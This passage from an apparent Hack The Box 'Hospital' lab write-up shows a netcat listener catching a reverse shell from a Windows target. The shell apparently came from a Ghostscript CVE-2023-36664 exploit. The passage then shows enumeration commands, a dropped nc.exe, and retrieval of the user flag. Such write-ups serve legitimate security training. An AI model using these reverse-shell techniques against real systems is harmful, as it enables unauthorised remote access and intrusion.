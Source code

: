 Then, a reverse shell is successfully caught, providing access to Dr. Brown's Windows machine.

```bash
┌──(kali㉿kali)-[~/…/htb-machines/hospital/exploits/CVE-2023-36664-Ghostscript-command-injection]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.129.229.189] 25203
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\drbrown.HOSPITAL\Documents>whoami
whoami
hospital\drbrown

C:\Users\drbrown.HOSPITAL\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7357-966F

 Directory of C:\Users\drbrown.HOSPITAL\Documents

04/08/2024  05:28 AM    <DIR>          .
04/08/2024  05:28 AM    <DIR>          ..
10/23/2023  03:33 PM               373 ghostscript.bat
04/08/2024  05:28 AM            45,272 nc.exe
               2 File(s)         45,645 bytes
               2 Dir(s)   4,082,790,400 bytes free

C:\Users\drbrown.HOSPITAL\Documents>

```

The user flag is found.

```bash
C:\Users\drbrown.HOSPITAL>cd Desktop
cd Desktop

C:\Users\drbrown.HOSPITAL\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7357-966F

 Directory of C:\Users\drbrown.HOSPITAL\Desktop

10/27/2023  12:24 AM    <DIR>          .
10/27/2023  12:24 AM    <DIR>          ..
04/08/2024  05:18 AM                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   4,082,765,824 bytes free

C:\Users\drbrown.HOSPITAL\Desktop>cat user.txt
cat user.txt
'cat' is not recognized as an internal or external command,
operable program or batch file.

C:\Users\drbrown.HOSPITAL\Desktop>type user.txt
type user.txt
<REDACTED>

```
